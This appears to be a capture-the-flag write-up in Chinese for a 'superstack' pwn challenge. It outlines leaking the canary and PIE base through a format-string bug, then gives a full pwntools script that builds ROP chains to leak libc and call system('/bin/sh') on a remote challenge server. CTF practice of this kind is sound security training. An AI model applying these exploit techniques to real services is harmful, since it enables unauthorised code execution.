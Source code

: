 - 程序开了各种保护，由于只有栈操作，因此要考虑泄露 Canary 和 PIE 来进一步操作
- 通过 IDA 可以直接发现程序存在格式化字符串漏洞
- 通过本地调试计算出偏移量来泄露 Canary 和 PIE

![image-20210505150003124](.assets/image-20210505150003124.png)

- 通过 IDA 查看 main 汇编可以寻找在 ROP 中用得上的汇编片段
- 利用泄露出来的 PIE 来泄露 puts 函数地址，进而泄露 libc 基地址
- 然后就可以调用 libc 里面的 system 函数执行 /bin/sh，获得 flag

```python
#! python2
import sys

from pwn import *

context.log_level = 'debug'
# ELF("/lib/x86_64-linux-gnu/libc.so.6")

elf = ELF("./superstack/pwn")
libc = ELF("/home/bi0x/ctf/libc-2.23_64.so")
if args['REMOTE']:
    sh = remote('121.43.169.147', 8735)
else:
    sh = process("./superstack/pwn")
sh.recvuntil("name: ")
sh.sendline("%17$lx %18$lx")
sh.sendafter("girlfirend's name: ", "233")

sh.recv(1)
canary = int(sh.recvuntil("00").ljust(8, "0"), 16)
print "canary=>" + hex(canary)
leak_addr = int(sh.recvuntil("\n").strip("\n"), 16)
print hex(leak_addr)
main_off = leak_addr - 0xb50
print "pie =>" + hex(main_off)
pading = "yes\n\x00\x00"
p_rdi_ret = 0x0000000000000bb3 + main_off
p_rsi_r15_ret = 0x0000000000000bb1 + main_off

payload = pading + "a"*(0x20-len(pading)-8) + p64(canary) + \
    "b"*8 + p64(p_rdi_ret) + p64(elf.got['read']+main_off)
payload += p64(elf.plt['puts'] + main_off) + \
    p64(elf.sym['Certify_sincerity']+main_off)

sh.recvuntil("\x00")
sh.sendline(payload)
sh.recvuntil("hundred!\x0a")
libc_read = u64(sh.recv(6).ljust(8, "\x00"))
libc_base = libc_read-libc.symbols['read']
system = libc_base+libc.symbols['system']
binsh = libc_base + libc.search("/bin/sh").next()
payload = pading + "a"*(0x20-len(pading)-8) + p64(canary) + "b" * \
    8 + p64(p_rdi_ret) + p64(binsh) + p64(system) + p64(1)
sh.sendline(payload)
# gdb.attach(sh)
sh.interactive()
print(sh.recv())
```

